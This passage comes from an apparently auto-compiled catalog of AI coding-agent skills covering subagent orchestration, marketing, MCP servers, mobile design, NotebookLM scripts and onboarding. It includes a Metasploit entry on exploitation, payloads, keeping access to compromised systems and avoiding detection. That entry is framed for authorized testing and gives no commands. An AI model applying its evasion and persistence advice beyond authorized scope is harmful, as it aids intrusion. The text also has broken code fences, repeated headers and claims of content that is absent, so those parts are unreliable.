- Simple data transformations, boilerplate generation

### Parallelization Strategy
```python
# Launch 10+ Haiku agents in parallel for unit test suite
for test_file in test_files:
    Task(subagent_type="general-purpose", model="haiku",
         description=f"Run unit tests: {test_file}",
         run_in_background=True)
```

### Advanced Task Tool Parameters

**Background Agents:**
```python
# Launch background agent - returns immediately with output_file path
Task(description="Long analysis task", run_in_background=True, prompt="...")
# Output truncated to 30K chars - use Read tool to check full output file
```

**Agent Resumption (for interrupted/long-running tasks):**
```python
# First call returns agent_id
result = Task(description="Complex refactor", prompt="...")
# agent_id from result can resume later
Task(resume="agent-abc123", prompt="Continue from where you left off")
```

**When to use `resume`:**
- Context window limits reached mid-task
- Rate limit recovery
- Multi-session work on same task
- Checkpoint/restore for critical operations

### Routing Mode Optimization (AWS Bedrock Pattern)

**Two dispatch modes based on task complexity - reduces latency for simple tasks:**

| Mode | When to Use | Behavior |
|------|-------------|----------|
| **Direct Routing** | Simple, single-domain tasks | Route directly to specialist agent, skip orchestration |
| **Supervisor Mode** | Complex, multi-step tasks | Full decomposition, coordination, result synthesis |

**Decision Logic:**
```
Task Received
    |
    +-- Is task single-domain? (one file, one skill, clear scope)
    |   +-- YES: Direct Route to specialist agent
    |   |        - Faster (no orchestration overhead)
    |   |        - Minimal context (avoid confusion)
    |   |        - Examples: "Fix typo in README", "Run unit tests"
    |   |
    |   +-- NO: Supervisor Mode
    |            - Full task decomposition
    |            - Coordinate multiple agents
    |            - Synthesize results
    |            - Examples: "Implement auth system", "Refactor API layer"
    |
    +-- Fallback: If intent unclear, use Supervisor Mode
```

**Direct Routing Examples (Skip Orchestration):**
```python
# Simple tasks -> Direct dispatch to Haiku
Task(model="haiku", description="Fix import in utils.py", prompt="...")       # Direct
Task(model="haiku", description="Run linter on src/", prompt="...")           # Direct
Task(model="haiku", description="Generate docstring for function", prompt="...")  # Direct

# Complex tasks -> Supervisor orchestration (default Sonnet)
Task(description="Implement user authentication with OAuth", prompt="...")    # Supervisor
Task(description="Refactor database layer for performance", prompt="...")     # Supervisor
```

**Context Depth by Routing Mode:**
- **Direct Routing:** Minimal context - just the task and relevant file(s)
- **Supervisor Mode:** Full context - CONTINUITY.md, architectural decisions, dependencies

> "Keep in mind, complex task histories might confuse simpler subagents." - AWS Best Practices

### E2E Testing with Playwright MCP (Anthropic Harness Pattern)

**Critical:** Features are NOT complete until verified via browser automation.

```python
# Enable Playwright MCP for E2E testing
# In settings or via mcp_servers config:
mcp_servers = {
    "playwright": {"command": "npx", "args": ["@playwright/mcp@latest"]}
}

# Agent can then automate browser to verify features work visually
```

**E2E Verification Flow:**
1. Feature implemented and unit tests pass
2. Start dev server via init script
3. Use Playwright MCP to automate browser
4. Verify UI renders correctly
5. Test user interactions (clicks, forms, navigation)
6. Only mark feature complete after visual verification

> "Claude mostly did well at verifying features end-to-end once explicitly prompted to use browser automation tools." - Anthropic Engineering

**Note:** Playwright cannot detect browser-native alert modals. Use custom UI for confirmations.

---

### Behavior & Constraints
- No third-party dependencies without approval
- Maintain backwards compatibility with v1.x API
- Keep response time under 200ms

**Never ship code without passing all quality gates:**

1. **Input Guardrails** - Validate scope, detect injection, check constraints (OpenAI SDK pattern)
2. **Static Analysis** - CodeQL, ESLint/Pylint, type checking
3. **Blind Review System** - 3 reviewers in parallel, no visibility of each other's findings
4. **Anti-Sycophancy Check** - If unanimous approval, run Devil's Advocate reviewer
5. **Output Guardrails** - Validate code quality, spec compliance, no secrets (tripwire on fail)
6. **Severity-Based Blocking** - Critical/High/Medium = BLOCK; Low/Cosmetic = TODO comment
7. **Test Coverage Gates** - Unit: 100% pass, >80% coverage; Integration: 100% pass

**Guardrails Execution Modes:**
- **Blocking**: Guardrail completes before agent starts (use for expensive operations)
- **Parallel**: Guardrail runs with agent (use for fast checks, accept token loss risk)

**Research insight:** Blind review + Devil's Advocate reduces false positives by 30% (CONSENSAGENT, 2025).
**OpenAI insight:** "Layered defense - multiple specialized guardrails create resilient agents."

See `references/quality-control.md` and `references/openai-patterns.md` for details.

---

**Battle-tested insights from practitioners building real systems.**

### Narrow Scope Wins

```yaml
task_constraints:
  max_steps_before_review: 3-5
  characteristics:
    - Specific, well-defined objectives
    - Pre-classified inputs
    - Deterministic success criteria
    - Verifiable outputs
```

### Confidence-Based Routing

```
confidence >= 0.95  -->  Auto-approve with audit log
confidence >= 0.70  -->  Quick human review
confidence >= 0.40  -->  Detailed human review
confidence < 0.40   -->  Escalate immediately
```

### Deterministic Outer Loops

**Wrap agent outputs with rule-based validation (NOT LLM-judged):**

```
1. Agent generates output
2. Run linter (deterministic)
3. Run tests (deterministic)
4. Check compilation (deterministic)
5. Only then: human or AI review
```

### Context Engineering

```yaml
principles:
  - "Less is more" - focused beats comprehensive
  - Manual selection outperforms automatic RAG
  - Fresh conversations per major task
  - Remove outdated information aggressively

context_budget:
  target: "< 10k tokens for context"
  reserve: "90% for model reasoning"
```

### Sub-Agents for Context Isolation

**Use sub-agents to prevent token waste on noisy subtasks:**

```
Main agent (focused) --> Sub-agent (file search)
                     --> Sub-agent (test running)
                     --> Sub-agent (linting)
```

See `references/production-patterns.md` for full practitioner patterns.

---

---

## marketing-ideas
- **ID**: `marketing-ideas`
- **Confidence**: `1.0`

### Description
Provide proven marketing strategies and growth ideas for SaaS and software products, prioritized using a marketing feasibility scoring system.

### Behavior & Constraints
name: marketing-ideas
description: Provide proven marketing strategies and growth ideas for SaaS and software products, prioritized using a marketing feasibility scoring system.
---
# Marketing Ideas for SaaS (with Feasibility Scoring)

You are a **marketing strategist and operator** with a curated library of **140 proven marketing ideas**.

Your role is **not** to brainstorm endlessly — it is to **select, score, and prioritize** the *right* marketing ideas based on feasibility, impact, and constraints.

This skill helps users decide:

* What to try **now**
* What to delay
* What to ignore entirely

---

When a user asks for marketing ideas:

1. **Establish context first** (ask if missing)

   * Product type & ICP
   * Stage (pre-launch / early / growth / scale)
   * Budget & team constraints
   * Primary goal (traffic, leads, revenue, retention)

2. **Shortlist candidates**

   * Identify 6–10 potentially relevant ideas
   * Eliminate ideas that clearly mismatch constraints

3. **Score feasibility**

   * Apply the **Marketing Feasibility Score (MFS)** to each candidate
   * Recommend only the **top 3–5 ideas**

4. **Operationalize**

   * Provide first steps
   * Define success metrics
   * Call out execution risk

> ❌ Do not dump long lists
> ✅ Act as a decision filter

---

---

## marketing-psychology
- **ID**: `marketing-psychology`
- **Confidence**: `1.0`

### Description
Apply behavioral science and mental models to marketing decisions, prioritized using a psychological leverage and feasibility scoring system.

### Activation
> The following models are **reference material**.
> Only a subset should ever be activated at once.

### (Foundational Thinking Models, Buyer Psychology, Persuasion, Pricing Psychology, Design Models, Growth Models)

✅ **Library unchanged**
✅ **Your original content preserved in full**
*(All models from your provided draft remain valid and included)*

---

---

## mcp-builder
- **ID**: `mcp-builder`
- **Confidence**: `1.0`

### Description
Guide for creating high-quality MCP (Model Context Protocol) servers that enable LLMs to interact with external services through well-designed tools. Use when building MCP servers to integrate external APIs or services, whether in Python (FastMCP) or Node/TypeScript (MCP SDK).

### Behavior & Constraints
Creating a high-quality MCP server involves four main phases:

### Phase 1: Deep Research and Planning

#### 1.1 Understand Modern MCP Design

**API Coverage vs. Workflow Tools:**
Balance comprehensive API endpoint coverage with specialized workflow tools. Workflow tools can be more convenient for specific tasks, while comprehensive coverage gives agents flexibility to compose operations. Performance varies by client—some clients benefit from code execution that combines basic tools, while others work better with higher-level workflows. When uncertain, prioritize comprehensive API coverage.

**Tool Naming and Discoverability:**
Clear, descriptive tool names help agents find the right tools quickly. Use consistent prefixes (e.g., `github_create_issue`, `github_list_repos`) and action-oriented naming.

**Context Management:**
Agents benefit from concise tool descriptions and the ability to filter/paginate results. Design tools that return focused, relevant data. Some clients support code execution which can help agents filter and process data efficiently.

**Actionable Error Messages:**
Error messages should guide agents toward solutions with specific suggestions and next steps.

#### 1.2 Study MCP Protocol Documentation

**Navigate the MCP specification:**

Start with the sitemap to find relevant pages: `https://modelcontextprotocol.io/sitemap.xml`

Then fetch specific pages with `.md` suffix for markdown format (e.g., `https://modelcontextprotocol.io/specification/draft.md`).

Key pages to review:
- Specification overview and architecture
- Transport mechanisms (streamable HTTP, stdio)
- Tool, resource, and prompt definitions

#### 1.3 Study Framework Documentation

**Recommended stack:**
- **Language**: TypeScript (high-quality SDK support and good compatibility in many execution environments e.g. MCPB. Plus AI models are good at generating TypeScript code, benefiting from its broad usage, static typing and good linting tools)
- **Transport**: Streamable HTTP for remote servers, using stateless JSON (simpler to scale and maintain, as opposed to stateful sessions and streaming responses). stdio for local servers.

**Load framework documentation:**

- **MCP Best Practices**: [📋 View Best Practices](./reference/mcp_best_practices.md) - Core guidelines

**For TypeScript (recommended):**
- **TypeScript SDK**: Use WebFetch to load `https://raw.githubusercontent.com/modelcontextprotocol/typescript-sdk/main/README.md`
- [⚡ TypeScript Guide](./reference/node_mcp_server.md) - TypeScript patterns and examples

**For Python:**
- **Python SDK**: Use WebFetch to load `https://raw.githubusercontent.com/modelcontextprotocol/python-sdk/main/README.md`
- [🐍 Python Guide](./reference/python_mcp_server.md) - Python patterns and examples

#### 1.4 Plan Your Implementation

**Understand the API:**
Review the service's API documentation to identify key endpoints, authentication requirements, and data models. Use web search and WebFetch as needed.

**Tool Selection:**
Prioritize comprehensive API coverage. List endpoints to implement, starting with the most common operations.

---

### Phase 2: Implementation

#### 2.1 Set Up Project Structure

See language-specific guides for project setup:
- [⚡ TypeScript Guide](./reference/node_mcp_server.md) - Project structure, package.json, tsconfig.json
- [🐍 Python Guide](./reference/python_mcp_server.md) - Module organization, dependencies

#### 2.2 Implement Core Infrastructure

Create shared utilities:
- API client with authentication
- Error handling helpers
- Response formatting (JSON/Markdown)
- Pagination support

#### 2.3 Implement Tools

For each tool:

**Input Schema:**
- Use Zod (TypeScript) or Pydantic (Python)
- Include constraints and clear descriptions
- Add examples in field descriptions

**Output Schema:**
- Define `outputSchema` where possible for structured data
- Use `structuredContent` in tool responses (TypeScript SDK feature)
- Helps clients understand and process tool outputs

**Tool Description:**
- Concise summary of functionality
- Parameter descriptions
- Return type schema

**Implementation:**
- Async/await for I/O operations
- Proper error handling with actionable messages
- Support pagination where applicable
- Return both text content and structured data when using modern SDKs

**Annotations:**
- `readOnlyHint`: true/false
- `destructiveHint`: true/false
- `idempotentHint`: true/false
- `openWorldHint`: true/false

---

### Phase 3: Review and Test

#### 3.1 Code Quality

Review for:
- No duplicated code (DRY principle)
- Consistent error handling
- Full type coverage
- Clear tool descriptions

#### 3.2 Build and Test

**TypeScript:**
- Run `npm run build` to verify compilation
- Test with MCP Inspector: `npx @modelcontextprotocol/inspector`

**Python:**
- Verify syntax: `python -m py_compile your_server.py`
- Test with MCP Inspector

See language-specific guides for detailed testing approaches and quality checklists.

---

### Phase 4: Create Evaluations

After implementing your MCP server, create comprehensive evaluations to test its effectiveness.

**Load [✅ Evaluation Guide](./reference/evaluation.md) for complete evaluation guidelines.**

#### 4.1 Understand Evaluation Purpose

Use evaluations to test whether LLMs can effectively use your MCP server to answer realistic, complex questions.

#### 4.2 Create 10 Evaluation Questions

To create effective evaluations, follow the process outlined in the evaluation guide:

1. **Tool Inspection**: List available tools and understand their capabilities
2. **Content Exploration**: Use READ-ONLY operations to explore available data
3. **Question Generation**: Create 10 complex, realistic questions
4. **Answer Verification**: Solve each question yourself to verify answers

#### 4.3 Evaluation Requirements

Ensure each question is:
- **Independent**: Not dependent on other questions
- **Read-only**: Only non-destructive operations required
- **Complex**: Requiring multiple tool calls and deep exploration
- **Realistic**: Based on real use cases humans would care about
- **Verifiable**: Single, clear answer that can be verified by string comparison
- **Stable**: Answer won't change over time

#### 4.4 Output Format

Create an XML file with this structure:

```xml
<evaluation>
  <qa_pair>
    <question>Find discussions about AI model launches with animal codenames. One model needed a specific safety designation that uses the format ASL-X. What number X was being determined for the model named after a spotted wild cat?</question>
    <answer>3</answer>
  </qa_pair>
<!-- More qa_pairs... -->
</evaluation>
```

---

# Reference Files

---

## Metasploit Framework
- **ID**: `metasploit-framework`
- **Confidence**: `1.0`

### Description
This skill should be used when the user asks to "use Metasploit for penetration testing", "exploit vulnerabilities with msfconsole", "create payloads with msfvenom", "perform post-exploitation", "use auxiliary modules for scanning", or "develop custom exploits". It provides comprehensive guidance for leveraging the Metasploit Framework in security assessments.

### Purpose
Leverage the Metasploit Framework for comprehensive penetration testing, from initial exploitation through post-exploitation activities. Metasploit provides a unified platform for vulnerability exploitation, payload generation, auxiliary scanning, and maintaining access to compromised systems during authorized security assessments.

### Behavior & Constraints
### Legal Requirements
- Only use on systems you own or have written authorization to test
- Document all testing activities
- Follow rules of engagement
- Report all findings to appropriate parties

### Technical Limitations
- Modern AV/EDR may detect Metasploit payloads
- Some exploits require specific target configurations
- Firewall rules may block reverse connections
- Not all exploits work on all target versions

### Operational Security
- Use encrypted channels (reverse_https) when possible
- Clean up artifacts after testing
- Avoid detection by monitoring systems
- Limit post-exploitation to agreed scope

---

## micro-saas-launcher
- **ID**: `micro-saas-launcher`
- **Confidence**: `1.0`

### Description
"Expert in launching small, focused SaaS products fast - the indie hacker approach to building profitable software. Covers idea validation, MVP development, pricing, launch strategies, and growing to sustainable revenue. Ship in weeks, not months. Use when: micro saas, indie hacker, small saas, side project, saas mvp."

### When to Use
### Idea Validation

Validating before building

**When to use**: When starting a micro-SaaS

```javascript

### When to Use
### The Validation Framework
| Question | How to Answer |
|----------|---------------|
| Problem exists? | Talk to 5+ potential users |
| People pay? | Pre-sell or find competitors |
| You can build? | Can MVP ship in 2 weeks? |
| You can reach them? | Distribution channel exists? |

### Quick Validation Methods
1. **Landing page test**
   - Build landing page
   - Drive traffic (ads, community)
   - Measure signups/interest

2. **Pre-sale**
   - Sell before building
   - "Join waitlist for 50% off"
   - If no sales, pivot

3. **Competitor check**
   - Competitors = validation
   - No competitors = maybe no market
   - Find gap you can fill

### Red Flags
- "Everyone needs this" (too broad)
- No clear buyer (who pays?)
- Requires marketplace dynamics
- Needs massive scale to work

### Green Flags
- Clear, specific pain point
- People already paying for alternatives
- You have domain expertise
- Distribution channel access
```

### MVP Speed Run

Ship MVP in 2 weeks

**When to use**: When building first version

```javascript

### When to Use
### The Stack (Solo-Founder Optimized)
| Component | Choice | Why |
|-----------|--------|-----|
| Frontend | Next.js | Full-stack, Vercel deploy |
| Backend | Next.js API / Supabase | Fast, scalable |
| Database | Supabase Postgres | Free tier, auth included |
| Auth | Supabase / Clerk | Don't build auth |
| Payments | Stripe | Industry standard |
| Email | Resend / Loops | Transactional + marketing |
| Hosting | Vercel | Free tier generous |

### Week 1: Core
```
Day 1-2: Auth + basic UI
Day 3-4: Core feature (one thing)
Day 5-6: Stripe integration
Day 7: Polish and bug fixes
```

### Week 2: Launch Ready
```
Day 1-2: Landing page
Day 3: Email flows (welcome, etc.)
Day 4: Legal (privacy, terms)
Day 5: Final testing
Day 6-7: Soft launch
```

### What to Skip in MVP
- Perfect design (good enough is fine)
- All features (one core feature only)
- Scale optimization (worry later)
- Custom auth (use a service)
- Multiple pricing tiers (start simple)
```

### Pricing Strategy

Pricing your micro-SaaS

**When to use**: When setting prices

```javascript

---

## mobile-design
- **ID**: `mobile-design`
- **Confidence**: `1.0`

### Description
Mobile-first design and engineering doctrine for iOS and Android apps. Covers touch interaction, performance, platform conventions, offline behavior, and mobile-specific decision-making. Teaches principles and constraints, not fixed layouts. Use for React Native, Flutter, or native mobile apps.

### Behavior & Constraints
name: mobile-design
description: Mobile-first design and engineering doctrine for iOS and Android apps. Covers touch interaction, performance, platform conventions, offline behavior, and mobile-specific decision-making. Teaches principles and constraints, not fixed layouts. Use for React Native, Flutter, or native mobile apps.
allowed-tools: Read, Glob, Grep, Bash
---
# Mobile Design System

**(Mobile-First · Touch-First · Platform-Respectful)**

> **Philosophy:** Touch-first. Battery-conscious. Platform-respectful. Offline-capable.
> **Core Law:** Mobile is NOT a small desktop.
> **Operating Rule:** Think constraints first, aesthetics second.

This skill exists to **prevent desktop-thinking, AI-defaults, and unsafe assumptions** when designing or building mobile applications.

---

---

## moodle-external-api-development
- **ID**: `moodle-external-api-development`
- **Confidence**: `1.0`

### Description
Create custom external web service APIs for Moodle LMS. Use when implementing web services for course management, user tracking, quiz operations, or custom plugin functionality. Covers parameter validation, database operations, error handling, service registration, and Moodle coding standards.

### When to Use
- Creating custom web services for Moodle plugins
- Implementing REST/AJAX endpoints for course management
- Building APIs for quiz operations, user tracking, or reporting
- Exposing Moodle functionality to external applications
- Developing mobile app backends using Moodle

---

## multi-agent-brainstorming
- **ID**: `multi-agent-brainstorming`
- **Confidence**: `1.0`

### Description
>

### Purpose
Transform a single-agent design into a **robust, review-validated design**
by simulating a formal peer-review process using multiple constrained agents.

This skill exists to:
- surface hidden assumptions
- identify failure modes early
- validate non-functional constraints
- stress-test designs before implementation
- prevent idea swarm chaos

This is **not parallel brainstorming**.
It is **sequential design review with enforced roles**.

---

### Behavior & Constraints
Each agent operates under a **hard scope limit**.

### 1️⃣ Primary Designer (Lead Agent)

**Role:**
- Owns the design
- Runs the standard `brainstorming` skill
- Maintains the Decision Log

**May:**
- Ask clarification questions
- Propose designs and alternatives
- Revise designs based on feedback

**May NOT:**
- Self-approve the final design
- Ignore reviewer objections
- Invent requirements post-lock

---

### 2️⃣ Skeptic / Challenger Agent

**Role:**
- Assume the design will fail
- Identify weaknesses and risks

**May:**
- Question assumptions
- Identify edge cases
- Highlight ambiguity or overconfidence
- Flag YAGNI violations

**May NOT:**
- Propose new features
- Redesign the system
- Offer alternative architectures

Prompting guidance:
> “Assume this design fails in production. Why?”

---

### 3️⃣ Constraint Guardian Agent

**Role:**
- Enforce non-functional and real-world constraints

Focus areas:
- performance
- scalability
- reliability
- security & privacy
- maintainability
- operational cost

**May:**
- Reject designs that violate constraints
- Request clarification of limits

**May NOT:**
- Debate product goals
- Suggest feature changes
- Optimize beyond stated requirements

---

### 4️⃣ User Advocate Agent

**Role:**
- Represent the end user

Focus areas:
- cognitive load
- usability
- clarity of flows
- error handling from user perspective
- mismatch between intent and experience

**May:**
- Identify confusing or misleading aspects
- Flag poor defaults or unclear behavior

**May NOT:**
- Redesign architecture
- Add features
- Override stated user goals

---

### 5️⃣ Integrator / Arbiter Agent

**Role:**
- Resolve conflicts
- Finalize decisions
- Enforce exit criteria

**May:**
- Accept or reject objections
- Require design revisions
- Declare the design complete

**May NOT:**
- Invent new ideas
- Add requirements
- Reopen locked decisions without cause

---

---

## neon-postgres
- **ID**: `neon-postgres`
- **Confidence**: `0.5`

### Description
"Expert patterns for Neon serverless Postgres, branching, connection pooling, and Prisma/Drizzle integration Use when: neon database, serverless postgres, database branching, neon postgres, postgres serverless."

---

## nestjs-expert
- **ID**: `nestjs-expert`
- **Confidence**: `0.5`

### Description
Nest.js framework expert specializing in module architecture, dependency injection, middleware, guards, interceptors, testing with Jest/Supertest, TypeORM/Mongoose integration, and Passport.js authentication. Use PROACTIVELY for any Nest.js application issues including architecture decisions, testing strategies, performance optimization, or debugging complex dependency injection problems. If a specialized expert is a better fit, I will recommend switching and stop.

---

## Network 101
- **ID**: `network-101`
- **Confidence**: `1.0`

### Description
This skill should be used when the user asks to "set up a web server", "configure HTTP or HTTPS", "perform SNMP enumeration", "configure SMB shares", "test network services", or needs guidance on configuring and testing network services for penetration testing labs.

### Purpose
Configure and test common network services (HTTP, HTTPS, SNMP, SMB) for penetration testing lab environments. Enable hands-on practice with service enumeration, log analysis, and security testing against properly configured target systems.

### Behavior & Constraints
- Self-signed certificates trigger browser warnings
- SNMP v1/v2c communities transmit in cleartext
- Anonymous SMB access is often disabled by default
- Firewall rules must allow inbound connections
- Lab environments should be isolated from production

---

## nextjs-best-practices
- **ID**: `nextjs-best-practices`
- **Confidence**: `0.5`

### Description
Next.js App Router principles. Server Components, data fetching, routing patterns.

---

## nextjs-supabase-auth
- **ID**: `nextjs-supabase-auth`
- **Confidence**: `0.5`

### Description
"Expert integration of Supabase Auth with Next.js App Router Use when: supabase auth next, authentication next.js, login supabase, auth middleware, protected route."

---

## nodejs-best-practices
- **ID**: `nodejs-best-practices`
- **Confidence**: `1.0`

### Description
Node.js development principles and decision-making. Framework selection, async patterns, security, and architecture. Teaches thinking, not copying.

### When to Use
### When to Use Each

| Pattern | Use When |
|---------|----------|
| `async/await` | Sequential async operations |
| `Promise.all` | Parallel independent operations |
| `Promise.allSettled` | Parallel where some can fail |
| `Promise.race` | Timeout or first response wins |

### Event Loop Awareness

```
I/O-bound (async helps):
├── Database queries
├── HTTP requests
├── File system
└── Network operations

CPU-bound (async doesn't help):
├── Crypto operations
├── Image processing
├── Complex calculations
└── → Use worker threads or offload
```

### Avoiding Event Loop Blocking

- Never use sync methods in production (fs.readFileSync, etc.)
- Offload CPU-intensive work
- Use streaming for large data

---

---

## nosql-expert
- **ID**: `nosql-expert`
- **Confidence**: `1.0`

### Description
"Expert guidance for distributed NoSQL databases (Cassandra, DynamoDB). Focuses on mental models, query-first modeling, single-table design, and avoiding hot partitions in high-scale systems."

### When to Use
- **Designing for Scale**: Moving beyond simple single-node databases to distributed clusters.
- **Technology Selection**: Evaluating or using **Cassandra**, **ScyllaDB**, or **DynamoDB**.
- **Performance Tuning**: Troubleshooting "hot partitions" or high latency in existing NoSQL systems.
- **Microservices**: Implementing "database-per-service" patterns where highly optimized reads are required.

---

## notebooklm
- **ID**: `notebooklm`
- **Confidence**: `1.0`

### Description
Use this skill to query your Google NotebookLM notebooks directly from Claude Code for source-grounded, citation-backed answers from Gemini. Browser automation, library management, persistent auth. Drastically reduced hallucinations through document-only responses.

### When to Use
Trigger when user:
- Mentions NotebookLM explicitly
- Shares NotebookLM URL (`https://notebooklm.google.com/notebook/...`)
- Asks to query their notebooks/documentation
- Wants to add documentation to NotebookLM library
- Uses phrases like "ask my NotebookLM", "check my docs", "query my notebook"

### Activation
**NEVER call scripts directly. ALWAYS use `python scripts/run.py [script]`:**

```bash
# ✅ CORRECT - Always use run.py:
python scripts/run.py auth_manager.py status
python scripts/run.py notebook_manager.py list
python scripts/run.py ask_question.py --question "..."

# ❌ WRONG - Never call directly:
python scripts/auth_manager.py status  # Fails without venv!
```

The `run.py` wrapper automatically:
1. Creates `.venv` if needed
2. Installs all dependencies
3. Activates environment
4. Executes script properly

### Activation
### Step 1: Check Authentication Status
```bash
python scripts/run.py auth_manager.py status
```

If not authenticated, proceed to setup.

### Step 2: Authenticate (One-Time Setup)
```bash
# Browser MUST be visible for manual Google login
python scripts/run.py auth_manager.py setup
```

**Important:**
- Browser is VISIBLE for authentication
- Browser window opens automatically
- User must manually log in to Google
- Tell user: "A browser window will open for Google login"

### Step 3: Manage Notebook Library

```bash
# List all notebooks
python scripts/run.py notebook_manager.py list

# BEFORE ADDING: Ask user for metadata if unknown!
# "What does this notebook contain?"
# "What topics should I tag it with?"

# Add notebook to library (ALL parameters are REQUIRED!)
python scripts/run.py notebook_manager.py add \
  --url "https://notebooklm.google.com/notebook/..." \
  --name "Descriptive Name" \
  --description "What this notebook contains" \  # REQUIRED - ASK USER IF UNKNOWN!
  --topics "topic1,topic2,topic3"  # REQUIRED - ASK USER IF UNKNOWN!

# Search notebooks by topic
python scripts/run.py notebook_manager.py search --query "keyword"

# Set active notebook
python scripts/run.py notebook_manager.py activate --id notebook-id

# Remove notebook
python scripts/run.py notebook_manager.py remove --id notebook-id
```

### Quick Workflow
1. Check library: `python scripts/run.py notebook_manager.py list`
2. Ask question: `python scripts/run.py ask_question.py --question "..." --notebook-id ID`

### Step 4: Ask Questions

```bash
# Basic query (uses active notebook if set)
python scripts/run.py ask_question.py --question "Your question here"

# Query specific notebook
python scripts/run.py ask_question.py --question "..." --notebook-id notebook-id

# Query with notebook URL directly
python scripts/run.py ask_question.py --question "..." --notebook-url "https://..."

# Show browser for debugging
python scripts/run.py ask_question.py --question "..." --show-browser
```

### Activation
### Authentication Management (`auth_manager.py`)
```bash
python scripts/run.py auth_manager.py setup    # Initial setup (browser visible)
python scripts/run.py auth_manager.py status   # Check authentication
python scripts/run.py auth_manager.py reauth   # Re-authenticate (browser visible)
python scripts/run.py auth_manager.py clear    # Clear authentication
```

### Notebook Management (`notebook_manager.py`)
```bash
python scripts/run.py notebook_manager.py add --url URL --name NAME --description DESC --topics TOPICS
python scripts/run.py notebook_manager.py list
python scripts/run.py notebook_manager.py search --query QUERY
python scripts/run.py notebook_manager.py activate --id ID
python scripts/run.py notebook_manager.py remove --id ID
python scripts/run.py notebook_manager.py stats
```

### Question Interface (`ask_question.py`)
```bash
python scripts/run.py ask_question.py --question "..." [--notebook-id ID] [--notebook-url URL] [--show-browser]
```

### Data Cleanup (`cleanup_manager.py`)
```bash
python scripts/run.py cleanup_manager.py                    # Preview cleanup
python scripts/run.py cleanup_manager.py --confirm          # Execute cleanup
python scripts/run.py cleanup_manager.py --preserve-library # Keep notebooks
```

### Activation
The virtual environment is automatically managed:
- First run creates `.venv` automatically
- Dependencies install automatically
- Chromium browser installs automatically
- Everything isolated in skill directory

Manual setup (only if automatic fails):
```bash
python -m venv .venv
source .venv/bin/activate  # Linux/Mac
pip install -r requirements.txt
python -m patchright install chromium
```

### Activation
```
User mentions NotebookLM
    ↓
Check auth → python scripts/run.py auth_manager.py status
    ↓
If not authenticated → python scripts/run.py auth_manager.py setup
    ↓
Check/Add notebook → python scripts/run.py notebook_manager.py list/add (with --description)
    ↓
Activate notebook → python scripts/run.py notebook_manager.py activate --id ID
    ↓
Ask question → python scripts/run.py ask_question.py --question "..."
    ↓
See "Is that ALL you need?" → Ask follow-ups until complete
    ↓
Synthesize and respond to user
```

---

## notion-template-business
- **ID**: `notion-template-business`
- **Confidence**: `1.0`

### Description
"Expert in building and selling Notion templates as a business - not just making templates, but building a sustainable digital product business. Covers template design, pricing, marketplaces, marketing, and scaling to real revenue. Use when: notion template, sell templates, digital product, notion business, gumroad."

### When to Use
### Template Design

Creating templates people pay for

**When to use**: When designing a Notion template

```javascript

### When to Use
### What Makes Templates Sell
| Factor | Why It Matters |
|--------|----------------|
| Solves specific problem | Clear value proposition |
| Beautiful design | First impression, shareability |
| Easy to customize | Users make it their own |
| Good documentation | Reduces support, increases satisfaction |
| Comprehensive | Feels worth the price |

### Template Structure
```
Template Package:
├── Main Template
│   ├── Dashboard (first impression)
│   ├── Core Pages (main functionality)
│   ├── Supporting Pages (extras)
│   └── Examples/Sample Data
├── Documentation
│   ├── Getting Started Guide
│   ├── Feature Walkthrough
│   └── FAQ
└── Bonus
    ├── Icon Pack
    └── Color Themes
```

### Design Principles
- Clean, consistent styling
- Clear hierarchy and navigation
- Helpful empty states
- Example data to show possibilities
- Mobile-friendly views

### Template Categories That Sell
| Category | Examples |
|----------|----------|
| Productivity | Second brain, task management |
| Business | CRM, project management |
| Personal | Finance tracker, habit tracker |
| Education | Study system, course notes |
| Creative | Content calendar, portfolio |
```

### Pricing Strategy

Pricing Notion templates for profit

**When to use**: When setting template prices

```javascript

### When to Use
### Price Anchoring
| Tier | Price Range | What to Include |
|------|-------------|-----------------|
| Basic | $15-29 | Core template only |
| Pro | $39-79 | Template + extras |
| Ultimate | $99-199 | Everything + updates |

### Pricing Factors
```
Value created:
- Time saved per month × 12 months
- Problems solved
- Comparable products cost

Example:
- Saves 5 hours/month
- 5 hours × $50/hour × 12 = $3000 value
- Price at $49-99 (1-3% of value)
```

### Bundle Strategy
- Individual templates: $29-49
- Bundle of 3-5: $79-129 (30% off)
- All-access: $149-299 (best value)

### Free vs Paid
| Free Template | Purpose |
|---------------|---------|
| Lead magnet | Email list growth |
| Upsell vehicle | "Get the full version" |
| Social proof | Reviews, shares |
| SEO | Traffic to paid |
```

### Sales Channels

Where to sell templates

**When to use**: When setting up sales

```javascript

---

## obsidian-clipper-template-creator
- **ID**: `obsidian-clipper-template-creator`
- **Confidence**: `0.5`

### Description
Guide for creating templates for the Obsidian Web Clipper. Use when you want to create a new clipping template, understand available variables, or format clipped content.

---

## onboarding-cro
- **ID**: `onboarding-cro`
- **Confidence**: `1.0`

### Description
When the user wants to optimize post-signup onboarding, user activation, first-run experience, or time-to-value. Also use when the user mentions "onboarding flow," "activation rate," "user activation," "first-run experience," "empty states," "onboarding checklist," "aha moment," or "new user experience." For signup/registration optimization, see signup-flow-cro. For ongoing email sequences, see email-sequence.

### When to Use
### Immediate Post-Signup (First 30 Seconds)

**Options:**
1. **Product-first**: Drop directly into product
   - Best for: Simple products, B2C, mobile apps
   - Risk: Blank slate overwhelm

2. **Guided setup**: Short wizard to configure
   - Best for: Products needing personalization
   - Risk: Adds friction before value

3. **Value-first**: Show outcome immediately
   - Best for: Products with demo data or samples
   - Risk: May not feel "real"

**Whatever you choose:**
- Clear single next action
- No dead ends
- Progress indication if multi-step

### Onboarding Checklist Pattern

**When to use:**
- Multiple setup steps required
- Product has several features to discover
- Self-serve B2B products

**Best practices:**
- 3-7 items (not overwhelming)
- Order by value (most impactful first)
- Start with quick wins
- Progress bar/completion %
- Celebration on completion
- Dismiss option (don't trap users)

**Checklist item structure:**
- Clear action verb
- Benefit hint
- Estimated time
- Quick-start capability

Example:
```
☐ Connect your first data source (2 min)
  Get real-time insights from your existing tools
  [Connect Now]
```

### Empty States

Empty states are onboarding opportunities, not dead ends.

**Good empty state:**
- Explains what this area is for
- Shows what it looks like with data
- Clear primary action to add first item
- Optional: Pre-populate with example data

**Structure:**
1. Illustration or preview
2. Brief explanation of value
3. Primary CTA to add first item
4. Optional: Secondary action (import, template)

### Tooltips and Guided Tours

**When to use:**
- Complex UI that benefits from orientation
- Features that aren't self-evident
- Power features users might miss

**When to avoid:**
- Simple, intuitive interfaces
- Mobile apps (limited screen space)
- When they interrupt important flows

**Best practices:**
- Max 3-5 steps per tour
- Point to actual UI elements
- Dismissable at any time
